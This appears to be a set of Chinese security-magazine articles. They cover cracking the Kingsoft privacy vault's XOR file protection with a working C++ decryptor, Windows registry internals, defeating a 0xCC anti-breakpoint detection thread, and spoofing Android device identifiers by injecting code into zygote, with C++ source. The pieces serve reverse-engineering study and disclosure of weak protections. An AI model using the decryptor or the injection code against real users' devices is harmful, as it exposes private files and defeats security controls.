上面这段 smali 代码中比较关键的一个调用是 `invoke-static {v1}, Lcom/ijinshan/mPrivacy/c/g;->b(Ljava/lang/String;)[B`，我们跟进去看一下。

```smali
# 解密文件
# p0: 加密后文件的路径，例如 /storage/sdcard0/.ksbox/6b2c357d
.method public static b(Ljava/lang/String;)[B
    .locals 2

    .prologue
    const/4 v1, 0x0
    .line 456
    :try_start_0
    # 判断是否是我们的加密文件，判断文件开头特征等等
    invoke-static {p0}, Lcom/ijinshan/mPrivacy/c/g;->h(Ljava/lang/String;)[B
    move-result-object v0
    .line 457
    if-nez v0, :cond_0
    move-object v0, v1
    .line 472
    :goto_0
    return-object v0
    .line 461
    :cond_0
    # 调用 b(Ljava/lang/String;I)[B，读取 _e 文件的内容
    invoke-static {p0}, Lcom/ijinshan/mPrivacy/c/g;->i(Ljava/lang/String;)[B
    # v0 即为 _e 文件的内容
    move-result-object v0
    .line 462
    if-eqz v0, :cond_1
    .line 464
    # 调用解密函数，解密 v0
    invoke-static {v0}, Lcom/ijinshan/mPrivacy/c/g;->a([B)[B
    :try_end_0
    .catch Ljava/io/IOException; {:try_start_0 .. :try_end_0} :catch_0
    move-result-object v0
    goto :goto_0
    .line 467
    :catch_0
    move-exception v0
    invoke-virtual {v0}, Ljava/io/IOException;->printStackTrace()V
    :cond_1
    move-object v0, v1
    .line 472
    goto :goto_0
.end method
```

这里最为关键的是 `invoke-static {v0}, Lcom/ijinshan/mPrivacy/c/g;->a([B)[B` 这个调用，`a([B)[B` 这个函数是专门用来解密 byte 数组的，代码如下所示。

```smali
# 解密算法
# buffer[i] = buffer[i] ^ 0x6b;
.method public static a([B)[B
    .locals 3
    .prologue
    .line 264
    array-length v0, p0
    # 判断传入参数的 buffer 是不是大于 0
    .line 266
    const/4 v1, 0x0
    # 判断 v1 是否大于 buffer 的大小
    :goto_0
    if-ge v1, v0, :cond_0
    # 取一个字节保存到 v2
    .line 267
    aget-byte v2, p0, v1
    # 与 0x6b 异或
    xor-int/lit8 v2, v2, 0x6b
    int-to-byte v2, v2
    # 把异或得到的值写回原来的 buffer 中
    aput-byte v2, p0, v1
    # v1 + 1
    .line 266
    add-int/lit8 v1, v1, 0x1
    # 继续循环
    goto :goto_0
    .line 270
    :cond_0
    return-object p0
.end method
```

程序分析到这里，我们大致知道了金山隐私保险箱的解密步骤：

- 1) 从 InputStream 类中派生自己的类，调用 BitmapFactory 的 decodeStream 函数解码文件输入流；
- 2) 重写 InputStream 类的 read 函数，用来实现自己的解密算法；
- 3) 解密的时候判断，如果是前面最开始的 0x400 字节，那么读取 filename_e 文件，每个字节异或 0x6B；如果是大于 0x400 字节，那么直接读取 filename 文件；
- 4) 按照上面的步骤解密，最后输出的文件即为原始文件。

## 编写解密程序

既然知道了金山隐私保险箱的解密算法，那么自己实现一个解密程序也就很简单了，大致代码如下所示。

```cpp
#include "stdafx.h"
#include <Windows.h>

// szName - 加密文件的文件名
// szOriginName - 原始文件名
BOOL DecodeStream(WCHAR *szName, WCHAR *szOriginName)
{
    BOOL bRet = FALSE;

    if (!szName || !szOriginName)
    {
        return bRet;
    }

    HANDLE hFile = CreateFile(szName,
        FILE_ALL_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile == INVALID_HANDLE_VALUE)
    {
        return bRet;
    }

    DWORD dwHigh = 0;
    DWORD dwSize = GetFileSize(hFile, &dwHigh);
    if (dwSize < 0x400)
    {
        CloseHandle(hFile);
        return bRet;
    }

    PBYTE pBuffer = (PBYTE)malloc(dwSize);
    if (pBuffer == NULL)
    {
        CloseHandle(hFile);
        return bRet;
    }

    memset(pBuffer, 0, dwSize);

    HANDLE hSaveFile = CreateFile(szOriginName,
        FILE_ALL_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        CREATE_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hSaveFile == INVALID_HANDLE_VALUE)
    {
        CloseHandle(hFile);
        free(pBuffer);
        return bRet;
    }

    WCHAR szPath[MAX_PATH] = {0};
    wsprintf(szPath, L"%s%s", szName, L"e");
    HANDLE hFile_e = CreateFile(szPath,
        FILE_ALL_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL);

    if (hFile_e == INVALID_HANDLE_VALUE)
    {
        CloseHandle(hFile);
        CloseHandle(hSaveFile);
        free(pBuffer);
        return bRet;
    }

    DWORD dwRet = 0;

    bRet = ReadFile(hFile_e, pBuffer, 0x400, &dwRet, NULL);
    if (!bRet)
    {
        CloseHandle(hFile);
        CloseHandle(hSaveFile);
        CloseHandle(hFile_e);
        free(pBuffer);
        return bRet;
    }

    SetFilePointer(hFile, 0x400, NULL, FILE_BEGIN);
    bRet = ReadFile(hFile, pBuffer + 0x400, dwSize - 0x400, &dwRet, NULL);
    if (!bRet)
    {
        CloseHandle(hFile);
        CloseHandle(hSaveFile);
        CloseHandle(hFile_e);
        free(pBuffer);
        return bRet;
    }

    for (int i = 0; i < 0x400; i++)
    {
        pBuffer[i] = pBuffer[i] ^ 0x6b;
    }

    WriteFile(hSaveFile, pBuffer, dwSize, &dwRet, NULL);

    CloseHandle(hFile);
    CloseHandle(hSaveFile);
    CloseHandle(hFile_e);
    free(pBuffer);

    return bRet;
}

int _tmain(int argc, _TCHAR* argv[])
{
    DecodeStream(L"C:\\Users\\Administrator\\Desktop\\98fca88",
                 L"C:\\Users\\Administrator\\Desktop\\1.jpg");
    return 0;
}
```

执行完如上代码之后，图片被解密出来，并且能正常打开。自此，金山隐私保险箱就被我们轻易攻破了。

## 后记

分析完金山隐私保险箱之后，我后来又去看了下 360 隐私保险箱和腾讯手机管家的隐私保险箱，大致的加解密流程都差不多，都只加解密文件开头的 0x400 字节，只是各自的加密算法不同罢了。回过头来想想，既然它们都能把文件还原回去，也就是说这个过程一定是可逆的。

经过上面的分析，目前移动端的隐私保护软件基本上也就只是个心理安慰罢了。在日常生活中，我们还是要自珍自爱，尽量不要把私密的文件保存在移动设备上，也不要去下载来历不明的软件、外挂等。


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

## 详解 Windows 的注册表机制

文/图 王晓松

曾经有过一段时间，“Windows 优化大师”“超级兔子”软件非常风靡，使用它们，一个普通的计算机用户可以轻松修改系统启动进程、网络连接 TCP 数量等参数，非常简单地解决计算机使用中的一些问题。这两款软件都是名副其实的注册表修改软件，因为软件实现的背后都是通过直接修改注册表完成用户提出的要求。注册表在 Windows 的运行中担任着重要的角色，可以将其看作系统和用户的数据库。在“运行”中键入“regedit”，打开注册表编辑器，如图 1 所示，可以看到类似 Windows 文件系统的结构。注册表中的内容包罗万象，本文将主要集中在 Windows 注册表的逻辑结构、物理结构和 Windows 机制的内部实现上。
图 1

### 注册表的逻辑结构

我们可以将图 1 中看到的如文件系统的结构看为注册表的逻辑结构。但在注册表中，目录不称为目录，文件也不称为文件。左侧类似文件目录的节点称为键（KEY），键的下面可以有子键（SUBKEY）和值（VALUE），注意这里值不是一个单独的概念，它是由值的名称、值的类型和值的内容三部分组成，实际上也就对应着图 1 中右侧的三列，分别写为名称、类型和数据。以图 1 为例，我们可以说，在 `\HKEY_LOCAL_MACHINE\SYSTEM\CONTROL SET\CONTROL` 的键下，有值名称为 CurrentUser，其值类型为 REG_SZ，值的内容（数据）为 USERNAME。如果将注册表和文件系统中的概念对应，可以使用图 2 简单地表达出来。
图 2 注册表与文件系统称呼的对应关系

再回到图 1，注意左侧的键结构，可以看到，在根键下有五大子键，分别是：

- HKEY_CLASSES_ROOT（HKCR）// 包含有关文件关联和 COM 的设置信息
- HKEY_CURRENT_USER（HKCU）// 当前用户的信息
- HKEY_LOCAL_MACHINE（HKLM）// 当前系统的信息
- HKEY_USERS（HKU）// 电脑中所有用户账户的信息
- HKEY_CURRENT_CONFIG（HKCC）// 当前硬件配置信息
图 3 根键下五大子键的关系

虽然从注册表编辑器我们看到了在根键下有 5 个子键，但是最根本的两个键是 HKEY_LOCAL_MACHINE 和 HKEY_USERS。虽然其余 3 个子键与 HKLM 和 HKU 并行，但实际上是 HKLM 和 HKU 下子键的符号链接。如图 3 所示，HKCU 实际上是 HKU 下子键的一个符号链接，而 HKCC 则是 `HKLM\SYSTEM\CurrentControlSet\Hardware\Current` 子键的一个符号链接，HKCR 是 `HKLM\SOFTWARE\Classes` 和 `HKCU\SOFTWARE\Classes` 的合并。

既然 HKLM 和 HKU 实际上是根键下两个唯一子键，那么我们分别看下这两个子键下的内容。

HKEY_LOCAL_MACHINE 下包含的子键如图 4 所示；HKEY_USERS 下包含的子键如图 5 所示。
图 4 HKEY_LOCAL_MACHINE 的子键（此处的系统目录为 `\windows\system32`）
图 5 HKEY_USERS 的子键

HKEY_USERS 子键下除了 `.DEFAULT` 外，都是一些 S 打头的键，如 `S-1-5-18`、`S-1-5-19_Classes`、`S-1-5-21-1929667112-1946198471-315` 等。我们就不细抠 `S-1-5-18` 中每个数字的含义，只要简单地认为实际上每个 S 打头的键背后都对应着一个加载过的用户就可以了，`.DEFAULT` 包含的是默认用户的子键，显然这些子键背后是各个用户的信息。

如果要将整个注册表的逻辑结构陈述详细，那需要厚厚的一册专著，如有需要就请读者查阅相关的资料。

### 注册表的物理结构

我们通过注册表编辑器看到的是注册表逻辑结构，注册表内容根据来源可以分为固定存储类和易失类。所谓的固定存储类就是其源内容放于硬盘的文件中，如果重新启动电脑这些内容不会改变或者丢失；而易失类是指反映系统当前运行情况的某些实时数据，这些信息并不存储在电脑中，而是配置管理器根据系统启动之后的状况实时从系统中采集得到的。固定存储类数据并不单纯地存储在一个文件中，而是由多个不同的文件共同组织起来的。

前面介绍过注册表的根键下主要是 HKLM 和 HKU 两个子键，HKLM 键下的子键主要存放在 Windows 系统的 `\WINDOWS\system32\config` 目录下，其对应关系如图 4 所示，而 HKEY_USERS 键下对应的文件主要存放在 `\Documents and Setting\<用户名>\NTUSER.DAT` 中。显然这些文件的内容不能简单地存储在文本文件中，因为存储的数据类型有些是二进制的，文本文件无法表达，并且存储注册表数据的文件有着固定的格式，称为 HIVE 文件。

如果从宏观的角度看，HIVE 文件的格式并不复杂，可以说一个 HIVE 文件是由固定大小（4K）的 BIN 组成，而一个 BIN 是由多个大小不一的 CELL 组成。一个 CELL 只能在一个 BIN 中，而不能跨越多个 BIN。一个简单的关系是：HIVE 由 BIN 组成，BIN 由 CELL 组成。

文翻译里这三个概念都带“巢”字，巢起巢落的，很容易使人头昏脑涨。想来大家能够阅读关于 Windows 内核的文章，英文都不会太差，所以我们这里就不扭扭捏捏地使用中文说法，而直接使用英文称呼，来得爽利。一个 HIVE 文件的结构如图 6 所示。
图 6 一个 HIVE 文件的物理结构

HIVE 文件的第一个 BIN 的结构比较特别，称为 BaseBlock，与之后的 BIN 的格式并不相同。BaseBlock 是针对整个 HIVE 文件的，如包含 HIVE 文件标识、最新序列号、校验和等内容，其头四个字节是内容为“regf”的字符。BaseBlock 并不包含具体的 CELL，而其余 BIN 的内容除了一个标准的 BIN 头（该 BIN 结构头四个字节为“hbin”字符）外，都是由各种 CELL 组成。

CELL 的类型分为 5 种，分别为键、子键列表、值列表、值和安全描述符。其中的安全描述符类型 CELL 指明了该键的访问权限等信息，子键列表类型 CELL 包含了某键下各子键 CELL 的位置，值列表类型 CELL 包含了某键下各值 CELL 的位置。一个键类型 CELL 中包含了指向其下子键列表类型 CELL、值列表类型 CELL、安全描述符类型 CELL、父键 CELL 的指针。

通过“键→子键列表→子键→值列表→值”的顺序我们可以访问到具体键或者值的信息。举个例子，如路径为 `\KEY1\KEY2\VALUE1` 的（键→值）结构，其中 KEY1 和 KEY2 为键，VALUE1 为值，如图 7 所示。其中 KEY1 键 CELL 包含了该键下安全描述符、子键列表、值列表和父键的指针，而子键列表 CELL 包含了各个子键的位置，值列表 CELL 包含了各个值的位置，而值 CELL 包含了一个值的内容。需要注意一点的是，在子键列表 CELL 中的内容是按照字符串的顺序排列的，因此可以使用数据结构中常用的二分法进行查找，但是值列表 CELL 中的内容并没有按照字符串顺序排序。
图 7 一个包含 4 种 CELL 类型的例子

## 注册表的初始化

了解了注册表的结构，我们再看看 Windows 是如何加载并初始化注册表，以供用户使用的。通常可以将注册表的初始化分为三个步骤，分别由 ntldr 中的 OS Loader（内核加载器）、smss.exe（会话管理器）和 winlogon.exe（登录管理器）中的代码完成。如果简单描述，就是在内核加载之初，内核加载器的代码中加载和系统有关的 HKLM\SYSTEM 以及与硬件有关的 HKLM\HARDWARE 两个 HIVE；当系统初始化部分完成，进入会话管理器部分，则加载注册表的大部分与系统全局有关的内容，如 HKLM\SAM、HKLM\SECURITY、HKLM\SOFTWARE 和 HKU\.DEFAULT 等。其后，当用户完成登录，那么相应地由登录进程完成用户部分 HIVE 的加载，如 HKU\<用户的 SID> HIVE 文件。整个注册表随系统启动加载的大致轮廓如图 8 所示。
图 8　注册表建立的三个步骤

## 注册表键的解析

Windows 提供了很多注册表操作函数，比如 NtOpenKey、NtCreateKey、NtDeleteKey 等，这些函数的起点都需要先调用 NtOpenKey 函数定位到目标键，因此我们就在这一小节尝试将 NtOpenKey 函数进行剖析，来看看注册表键解析的实现。

使用过注册表的读者会发现，注册表包含的内容很多，虽然只是简单的树状结构，但是有的键路径非常长。如何有效地实现注册表键的解析，是配置管理器需要解决的重要问题。值得注意的是，注册表中能够被打开的对象是键，而不是值。换句话说，如果想取得某个值的内容，只能先打开包含该值的键，然后再对该值的内容进行读取，因此在这里提到的都是对键的解析。

注册表键的解析与系统的对象管理器密切相关。在系统启动之初，配置管理器就在全局对象名字空间的根路径下创建一个称为“REGISTRY”的键对象，实际上它对应着我们前面提到的注册表键根键。在其下有两个目录，分别为 Machine 和 User 目录，对应着注册表中的 HKLM 和 HKU 两个子键。那么注册表中的 HKLM\SYSTEM\Setup 键，在对象管理器中表示为路径 \\REGISTRY\\Machine\\SYSTEM\\Setup。

注册表键的解析可以理解为对目标键的定位，本质上就是对该键对应 CELL 位置进行确定。简单来说，就是完成目标键到目标 CELL 的转换。对于已经打开的键，为了加快速度，配置管理器会建立一个长度为 2048 的键散列表。当一个键被打开，则将其对应路径进行散列，所得的散列值作为键散列表的索引，将该键对应的键控制块放于其中。键控制块存放着键节点所在的 HIVE 和 CELL 索引，能够直接定位到目标 CELL。
> 图 9 通过键散列表完成键解析

当使用 NtOpenKey 函数要打开一个键时，系统会首先调用 \REGISTRY 键对象的 Parse（解析）方法，该方法被设置为 CmpParseKey 函数。这点使用了 Windows 中的对象管理机制，因为每个对象都会提供一个路径名称解析的 Parse 方法，那么键解析的重点就放在 CmpParseKey 函数中。CmpParseKey 函数会首先将该键对应的全路径进行散列，然后在键散列表中进行查找；如果找到，则可以直接定位到该键对应的 CELL；如果没有找到，则从目标键路径的开始进行逐层查找。对于每一层，同样先进行散列，若在键散列表中存在，说明已经打开过，则直接定位，进行下一层解析；若没有在键散列表中找到，则需要按照 HIVE 文件的结构定位到该路径对应的键，并添加到键散列表中去。如此反复，直到定位到目标键。在这个过程中，由于对每个没在键散列表中的路径进行了打开操作，并建立了相应的键控制块，因此对一个路径的解析相当于对该路径中的每个节点都进行了解析。

事情到这里，似乎都很圆满，但是还有一个小小的问题。前面提到，键控制块中存放着键节点所在的 HIVE 和 CELL 索引。如果整个 HIVE 文件是一个整体，那么通过 HIVE 成员定位键所在的文件，CELL 索引表示该 CELL 在文件中的偏移，两个成员就可以轻松定位目标 CELL。但是实际情况并不是如此简单。对于注册表操作，当然要将 HIVE 文件读入到内存中。在 Windows XP/Server 2003 操作系统的配置管理器实现中，是将一个 HIVE 文件中的内容映射到系统缓存区间。由于映射是以 BIN 为单位随机映射到系统缓存区间内，这就导致一个问题：CELL 索引中的内容该如何填充，从而能够定位到内存中对应的 CELL。

CELL 索引的长度为 32 位，类似于 Windows 内存管理中对虚拟地址的分割，CELL 索引也使用了分段索引机制，如图 10 下面部分所示。对于一个 CELL 索引的解析也如图 10 所示：

- 每个 HIVE 在内存中有两个 CELL 目录，分别对应固定存储类和易失类，CELL 索引的最高位说明了该地址是放于哪种类型的 CELL 目录中。
- 紧随存储类型之后的是 10 位长的 CELL 目录索引，可以在 CELL 目录的 1024 项中定位一项，从而确定其对应 CELL 表的虚拟内存地址。
- 当我们定位到该 CELL 表后，根据 CELL 索引结构中的 9 位 CELL 表索引，定位到该 CELL 所在 BLOCK 的内存地址。
- 最后通过 CELL 索引结构中最后的 12 位定位到目标 CELL。

需要注意的是，两个 CELL 目录的地址是在该 HIVE 文件被加载进入内存时由配置管理器设置并保存的，同时 CELL 目录和 CELL 表是存放在换页内存池中独立存在，而不是放于系统缓存中的。
图 10　CELL 索引的结构

## 小结

Windows 系统的注册表机制内容丰富，可以说涉及到系统和用户的各个方面。本篇文章沿着“逻辑结构——>物理结构——>注册表的初始化——>注册表键解析”的思路进行了相应内容的讨论，难点在于物理结构的了解以及注册表键解析的函数实现。

（完）

## 记一个有趣的 0xCC 检测程序

文/图 木羊

这个程序来自看雪的一篇名为《反断点实例》的帖子，版主特地标成“关注”，引起了我的好奇。下载后看了看，觉得挺有趣。首先说说情况，这个程序是个 console，运行后只有一行可怜巴巴的小字，写着“下个断点试试”。OD 载入，F9 走起，看到文字提示后顺手按了下 F2，接着到了见证奇迹的时刻：程序停在了图 1 处。
图 1

有点意思！OD 玩得熟了都知道，要让一个按了 F9 以后的 OD 停下来并不是那么信手拈来的事，必须根据黑盒和经验，将断点下到程序必经之路才能断下来。我看了看断下的位置，正好是 OEP，这就更怪了，按说程序运行起来后通常不会再走 OEP 的。

我又试了试，发现这个程序确实有意思，似乎随处下一个断点，都能立即断下来——才怪。我一直觉得，一名逆向工程师是否优秀的标准，是能否设计出全覆盖的路径测试方案。以本文为例，我们要给出一个“随处下一个断点，都能立即断下来”的结论，最起码也得验证两个地方：一是覆盖所有断点，二是原则上覆盖所有地方。第一点比较好办，我们知道 OD 的断点有三种，分别是 0xCC 断点（即 F2 断点）、内存断点和硬件断点，都下一遍就知道本程序只有 0xCC 断点有效；第二点就不太好办了，内存这么大，就算不管 x64 和 PAE，Ring3 也是 2G 起步，全覆盖是不太容易了，挑几个特例吧。我选择的是主程序的不同区段内存空间，以及系统 DLL 的内存空间，发现只有在主程序的 .text 区段内下断点才有效。

到这里我们已经可以基本摸清程序的脉络：在主程序的 .text 区段内存空间中进行 0xCC 检测。0xCC 检测有同步检测和异步检测两种，区别主要是看有没有新开线程。这个好确认，只需要稍微设置一下 OD，在调试选项→事件一栏中勾选“中断在新进程”，如图 2 所示。
图 2

重新跑起，程序中断在 0x011E1360 处：

```asm
011E1360  $  55                 push    ebp
011E1361  .  8BEC               mov     ebp, esp
011E1363  .  83E4 F8            and     esp, 0xFFFFFFF8
011E1366  .  81EC 3C030000      sub     esp, 0x33C
011E136C  .  A1 00301F01        mov     eax, dword ptr [0x11F3000]
011E1371  .  33C4               xor     eax, esp
011E1373  .  898424 38030000    mov     dword ptr [esp+0x338], eax
011E137A  .  53                 push    ebx
011E137B  .  56                 push    esi
011E137C  .  57                 push    edi
011E137D  .  8D4424 14          lea     eax, dword ptr [esp+0x14]
011E1381  .  50                 push    eax
011E1382  .  6A 00              push    0x0    ; /pModule = NULL
011E1384  .  FF15 0CE01E01      call    dword ptr [<&KERNEL32.GetModuleHandleW>] ; \GetModuleHandleW
011E138A  .  8BC8               mov     ecx, eax
011E138C  .  E8 6FFCFFFF        call    011E1000
011E1391  .  8B5C24 18          mov     ebx, dword ptr [esp+0x18]
011E1395  .  83C4 04            add     esp, 0x4
011E1398  .  8BF8               mov     edi, eax
011E139A  .  897C24 18          mov     dword ptr [esp+0x18], edi
011E139E  .  53                 push    ebx        ; /dwBytes
011E139F  .  6A 00              push    0x0        ; |dwFlags = 0x0
011E13A1  .  FF15 10E01E01      call    dword ptr [<&KERNEL32.GetProcessHeap>]
;  |[GetProcessHeap
011E13A7  .  50                 push    eax        ; |hHeap
011E13A8  .  FF15 04E01E01      call    dword ptr [<&KERNEL32.HeapAlloc>]
;  \RtlAllocateHeap
011E13AE  .  8BF0               mov     esi, eax
011E13B0  .  897424 1C          mov     dword ptr [esp+0x1C], esi
011E13B4  .  85F6               test    esi, esi
011E13B6  .  75 14              jnz     short 011E13CC
011E13B8  .  68 DC1D1F01        push    011F1DDC
011E13BD  .  E8 96010000        call    011E1558
011E13C2  .  83C4 04            add     esp, 0x4
011E13C5  .  56                 push    esi        ; /ExitCode
011E13C6  .  FF15 00E01E01      call    dword ptr [<&KERNEL32.ExitProcess>]
;  \ExitProcess
```

后面还有挺长一段，我们下面会继续分析。这里是一条新线程的入口，但现在我们还不知道这条线程是干什么的，只知道它通过 GetModuleHandleW(0) 获取了主程序地址，然后调用 0x011E1000，最后申请了一些堆内存。不过一个 console 程序跑多线程，很可能就是采用线程进行异步检测。跟进 0x011E1000 处的函数，挑主要的看看。

```asm
011E101C  |>  \8B4F 3C       mov    ecx, dword ptr [edi+0x3C]
011E101F  |.  03CF            add    ecx, edi
011E1021  |.  8139 50450000   cmp    dword ptr [ecx], 0x4550
011E1027  |.  75 EC           jnz    short 011E1015
011E1029  |.  0FB741 14       movzx  eax, word ptr [ecx+0x14]
011E102D  |.  8D51 18         lea    edx, dword ptr [ecx+0x18]
011E1030  |.  53              push   ebx
011E1031  |.  0FB759 06       movzx  ebx, word ptr [ecx+0x6]
011E1035  |.  03D0            add    edx, eax
011E1037  |.  56              push   esi
011E1038  |.  33C0            xor    eax, eax
011E103A  |.  8955 FC         mov    dword ptr [ebp-0x4], edx
011E103D  |.  33F6            xor    esi, esi
011E103F  |.  66:3BC3         cmp    ax, bx
011E1042  |.  73 40           jnb    short 011E1084
011E1044  |>  0FB7CE          movzx  ecx, si
011E1047  |.  B8 D41D1F01     mov    eax, 011F1DD4 ; ASCII ".text"
011E104C  |.  8D0C89          lea    ecx, dword ptr [ecx+ecx*4]
011E104F  |.  8D0CCA          lea    ecx, dword ptr [edx+ecx*8]
011E1052  |>  8A11            mov    dl, byte ptr [ecx]
011E1054  |.  3A10            cmp    dl, byte ptr [eax]
011E1056  |.  75 1A           jnz    short 011E1072
011E1058  |.  84D2            test   dl, dl
011E105A  |.  74 12           je     short 011E106E
011E105C  |.  8A51 01         mov    dl, byte ptr [ecx+0x1]
011E105F  |.  3A50 01         cmp    dl, byte ptr [eax+0x1]
011E1062  |.  75 0E           jnz    short 011E1072
011E1064  |.  83C1 02         add    ecx, 0x2
011E1067  |.  83C0 02         add    eax, 0x2
011E106A  |.  84D2            test   dl, dl
011E106C  |.  75 E4           jnz    short 011E1052
```

先看到和 0x4550 进行比较，这是典型的 PE 头魔数，毫无疑问是要对 PE 格式进行某些操作了。再看下去，是寻找 .text 区段的内存空间。还记得上面的分析吗？程序就要在 .text 区段内存空间中检测 0xCC 断点，要完成这项工作，首先就得找到内存空间地址。如此看来，这条线程很可能就是我们要找的异步检测线程。

前面已经看到，这个函数调用完毕后是一系列堆内存操作。这个操作比较无趣，就是一个内存镜像拷贝。看来程序作者想通过用拷贝镜像和实时内存的比较来检测是否存在 0xCC 断点。下个硬断很容易就发现检测核心代码在这里：

```asm
011E1320  |>  8A08       /mov    cl, byte ptr [eax]
011E1322  |.  |3A0C07    |cmp    cl, byte ptr [edi+eax]
011E1325  |.  |74 05     |je     short 011E132C
011E1327  |.  |80F9 CC   |cmp    cl, 0xCC
011E132A  |.  |74 11     |je     short 011E133D
011E132C  |>  |46        |inc    esi
011E132D  |.  |40        |inc    eax
011E132E  |.  |3BF2      |cmp    esi, edx
011E1330  |.  ^72 EE     \jb     short 011E1320
```

0x011E1327 处就是比较当前字节是否为 0xCC。至此这个有趣的 0xCC 检测程序的检测机制就完整地分析出来了。要废了它也很容易，把此处的比较处理掉，或者干脆把检测线程废了就可以收工了。有人可能要问，废了这个线程不会对主程序有什么影响吗？一点影响也没有，这条线程存在的唯一目的就是检测。要是它还肩负一些哪怕一点核心工作，就不能轻易废了它。可惜甚至很多外挂检测程序就是喜欢用单独的检测线程，以致它们无依无靠地一不留神就失效了。

（完）

## 非 HOOK 方式伪造 Android 设备特征信息

文/图 Glorevo

Android 设备特征信息包括厂商、品牌、型号、IMEI 串号、手机号码、MAC 地址和操作系统版本号等。纷繁的 APP 或多或少都会获取其中某些信息，目的不尽相同。很多时候我们想禁止应用程序获取设备信息，各种卫士和管家已经满足了这个需求。还有些时候，我们不想直接禁止读取，而是返回虚假的信息，这个需求也部分实现了，比如 PDroid 和 Xprivacy。

现有的拦截或伪造手段多为函数钩子，比如 APP 获取 MAC 地址使用的函数是 getMacAddress，对其下 HOOK 则可实现拦截。而 APP 获取手机型号的方式不是函数调用，因为型号信息是 android.os 包的 Build 类的公有静态属性 MODEL，没有对应的类方法来读取，APP 只能通过 Build.MODEL 的形式直接取出属性值，所以无法使用 HOOK 手段来拦截 APP 对此类信息的获取。

手机的品牌、厂商和 Android 系统版本号等信息和型号类似，是 Build 类的公有静态属性，无法下 HOOK。要伪造这些信息，有一个办法是修改配置文件，不过要重启系统才能生效，再次修改则要再次重启。本文将要探讨如何伪造此类特征信息，而不需要修改 ROM，也无需重启系统，运行时要请求 ROOT 权限，所有修改都是内存操作，重启系统后可还原正常配置。

## 思路概述

假设要让某进程读取到的手机型号是假的，可以向此进程注入代码，由所注入的代码来修改 android.os.Build.MODEL 的值。

进一步思考，普通 APP 的进程都是由 zygote 进程 fork 出来的，所以如果把代码注入到 zygote 进程，则后续创建的新进程读取到的 MODEL 值都是被修改过的虚假信息。

两种方式看具体需求来使用，前者适合对同一个 APP 进程多次修改信息而无需重启此 APP；后者则是欺骗所有 APP，若要再次修改，则要重启 APP 进程才会读取到新的信息。

## 程序结构

按上述思路，可以把程序结构分为 3 层：最底层是 C++ 实现的共享库，用以修改属性值；中间层是 C 语言实现的可执行文件，用来把底层代码注入到目标进程并执行；上层是 Java 应用，在需要伪造设备信息时，调用中层代码向目标进程实施注入，并传递属性名和新属性值作为参数。

## 底层修改器的实现

Build 类被定义在 Android 源代码（此处以 4.4 版本为例）的 frameworks/base/core/java/android/os/Build.java 文件中，类中很多属性表示了不同的特征信息，读者可以阅读源文件注释来了解。这些公有静态属性同时还被修饰为 final，语言的访问控制是在编译期进行的，所以 Java 代码只能读取而无法修改 final 成员的值。final 常量其实是一个伪常量，它有自己的内存地址，我们考虑使用 Native API 来实现修改。

这里使用 C++ 编写共享库，通过 JNI 桥获得 Build 类的引用，进而查找目标属性的域 ID，最后使用 SetStaticObjectField 函数设置新的属性值。

这需要调用相关的 JNI 函数，离不开 JNI 环境，JNI 环境由一个 JNIEnv* 类型变量来传递。在 Java 层使用 System.loadLibrary 加载一个共享库时，库的导出函数 JNI_OnLoad 会得到调用，此函数的第一个参数就会传进来一个与当前线程关联的 JNI 环境指针，通常由此获得 JNI 环境。

现在的问题是，这个库是由另一个 C 可执行程序将其注入到其它进程中的，不能再从 JNI_OnLoad 得到 JNI 环境。那么我们就阅读 Android 源代码来看 Native API 的 loadLibrary 函数是怎么实现的，就知道 JNI 环境是从哪里传递给 JNI_OnLoad 函数的，这样我们就可以自己编写代码来获取 JNI 环境指针，而不用依赖 JNI_OnLoad 了。

Android 源代码的 libcore/luni/src/main/java/java/lang/System.java 文件中实现了 loadLibrary 函数，可以看到，通过全局变量 gDvmJni 就可以获得 JNI 环境指针，这个全局变量是 DvmJniGlobals 类型，定义在 dalvik/vm/Globals.h 文件中。庆幸的是这个结构并不复杂，不需要包含过多的头文件，我们把这个结构定义一下，再把 gDvmJni 声明出来就可以使用了。

经过以上分析，代码实现就非常简单了，相信读者根据注释和变量名称就能读懂代码，这里就不必多作讲解了。修改器的代码实现如下：

```cpp
// modifier.cpp
#include <string.h>
#include <jni.h>
#include <malloc.h>

struct DvmJniGlobals {
    bool useCheckJni;
    bool warnOnly;
    bool forceCopy;
    bool workAroundAppJniBugs;
    bool logThirdPartyJni;
    JavaVM* jniVm;
};

extern struct DvmJniGlobals gDvmJni;
JNIEnv* env = NULL;

int modify(char* parameter)
{
    /* 参数格式:
     * - 没有内部类: 属性名@属性
     *   如手机型号: MODEL@Nexus 4
     * - 属性在内部类: 内部类名#属性名@属性
     *   如安卓版本号: VERSION#RELEASE@10.10
     */

    // 获取 JNI 环境
    if ((gDvmJni.jniVm)->GetEnv((void**)&env, JNI_VERSION_1_4) != JNI_OK)
        return -1;
    if (env == NULL)
        return -1;

    char class_name[255] = "android/os/Build";
    char property_name[255] = "UNKNOWN";
    char property_type[255] = "Ljava/lang/String;";
    char property_value[255] = "Unknown";

    // 参数解析
    char* src = parameter;
    char* dest = property_name;
    while (*src != '\0')
    {
        // 检测内部类
        if (*src == '#')
        {
            *src++ = '\0';
            dest = property_name;
            strcat(class_name, "$");
            strcat(class_name, parameter);
        }
        // 分离属性名与属性值
        if (*src == '@')
        {
            *dest = '\0';
            ++src;
            dest = property_value;
        }
        *dest++ = *src++;
    }
    *dest = '\0';

    // 查找类引用
    jclass cls = (env)->FindClass(class_name);
    if (cls == NULL)
        return -1;

    // 获取域 ID
    jfieldID fid = (env)->GetStaticFieldID(cls, property_name, property_type);
    if (fid == NULL)
        return -1;

    // 设置属性值
    jstring new_value = (env)->NewStringUTF(property_value);
    (env)->SetStaticObjectField(cls, fid, new_value);

    // 释放内存
    env->DeleteLocalRef(new_value);
    env->DeleteLocalRef(cls);
    return 0;
}
```

代码中的全局变量 gDvmJni 只是作了声明而没有定义，要加载 libdvm.so 共享库才能使用。成功编译 Android 源代码之后，这个库文件会生成在 out/host/linux-x86/lib 目录下。在 Android.mk 文件导入 libdvm.so：
